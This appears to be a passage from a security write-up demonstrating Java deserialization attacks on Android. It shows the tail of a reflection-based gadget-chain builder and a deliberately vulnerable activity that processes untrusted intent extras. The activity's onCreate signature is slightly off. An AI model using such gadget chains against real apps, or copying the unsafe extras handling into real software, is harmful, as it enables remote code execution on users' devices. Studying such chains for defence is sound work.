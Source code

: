 ```java
        try {
            f = HashSet.class.getDeclaredField("map");
        } catch (NoSuchFieldException e) {
            f = HashSet.class.getDeclaredField("backingMap");
        }

        Reflections.setAccessible(f);
        HashMap innimpl = (HashMap) f.get(map);

        Field f2 = null;
        try {
            f2 = HashMap.class.getDeclaredField("table");
        } catch (NoSuchFieldException e) {
            f2 = HashMap.class.getDeclaredField("elementData");
        }

        Reflections.setAccessible(f2);
        Object[] array = (Object[]) f2.get(innimpl);

        Object node = array[0];
        if(node == null){
            node = array[1];
        }

        Field keyField = null;
        try{
            keyField = node.getClass().getDeclaredField("key");
        }catch(Exception e){
            keyField = Class.forName("java.util.MapEntry").getDeclaredField("key");
        }

        Reflections.setAccessible(keyField);
        keyField.set(node, entry);

        return map;
}
```

#### Target App (Vulnerable)

```java
public class VulnerableActivity extends Activity {
    @Override
    public void onCreate(Context context, Intent intent) {
        Bundle extras = intent.getExtras();
        if (extras != null) {
            Log.d(app_name, "intent has extra data");
            for (String extra : extras.keySet()) {
                Log.d(app_name, "processing extra " + extra);
                Log.d(app_name, "sucessfully deserialized " + intent.getStringExtra(extra));
            }
        }
    }
}
```
